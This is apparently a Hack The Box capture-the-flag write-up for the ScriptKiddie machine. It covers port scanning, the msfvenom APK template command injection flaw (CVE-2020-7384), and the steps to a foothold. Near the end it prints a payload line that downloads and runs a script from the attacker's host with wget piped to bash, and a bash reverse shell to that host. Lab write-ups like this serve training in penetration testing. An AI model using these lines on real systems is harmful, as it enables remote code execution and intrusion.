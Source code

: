 Enumerated all open ports:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/ScriptKiddie]
└─$ sudo nmap 10.10.10.226 -oN scans/open-ports.txt -sT -sC -sV -Pn -p22,5000
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```

Nmap discovered two services running on the target: an ssh service on port 22 revealing the exact build version of openssh and a python web server running on a non traditional port.

![Pasted image 20210421103447.png]({{page.screenshots}}Pasted image 20210421103447.png)

It was searched for known exploit targeting Werkzeug:
![Pasted image 20210421104830.png]({{page.screenshots}}Pasted image 20210421104830.png)
However for the current target the *debug shell* was not enabled.

Current **web application features depended** on different **external tools** (nmap, msfvenom and searchsploit), one of which vulnerable to **APK template command injection**.
![Pasted image 20210421122525.png]({{page.screenshots}}Pasted image 20210421122525.png)

## Foothold
The version of msfvenom used by the web application was vulnerable to **APK template command injection** (CVE-2020-7384). Metasploit msfvenom framework handles APK files in a way that **allows for a malicious user to craft and publish a file that would execute arbitrary commands** on a victim's machine.

Because the web site **allowed to upload different files used as template by msfvenom**, this was a solid path to follow (since no msfvenom version was obtained earlier).

The PoC used to craft the malicious APK was the following: [https://www.exploit-db.com/exploits/49491](https://www.exploit-db.com/exploits/49491)
 The payload was then changed to **download and execute a reverse shell** on the victim machine:
 ```python
...
# Change me
payload = 'wget -O - 10.10.14.14/revshell.sh | bash'
...
```

This was the second stage payload downloaded and executed by the initial one:
```bash
bash -i >& /dev/tcp/10.10.14.14/443 0>&1
```
